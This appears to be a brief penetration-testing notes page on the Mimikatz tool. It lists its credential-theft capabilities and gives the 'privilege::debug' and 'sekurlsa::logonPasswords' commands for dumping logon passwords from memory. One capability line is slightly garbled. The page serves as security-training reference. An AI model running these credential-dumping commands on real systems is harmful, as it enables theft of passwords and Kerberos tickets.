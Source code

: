 # 😿 Mimikatz

It is designed to extract and manipulate sensitive information, such as passwords, security tokens, and Kerberos tickets, from memory.

Mimikatz can be used to perform a variety of tasks, including:

* Extracting plaintext passwords from memory
* Extracting Kerberos tickets and TGTs from memory
* Extracting security tokens and session keys from memory
* Performing pass- and manipulating Kerberos tickets
* Performing DCSync attacks to synchronize the password of a user account

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://github.com/gentilkiwi/mimikatz">https://github.com/gentilkiwi/mimikatz</a></p></figcaption></figure>

start using mimikatz with this command:

```
mimikatz.exe
```

<figure><img src="../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
privilege::debug
sekurlsa::logonPasswords
```

<figure><img src="../../../.gitbook/assets/image (16) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz" %}
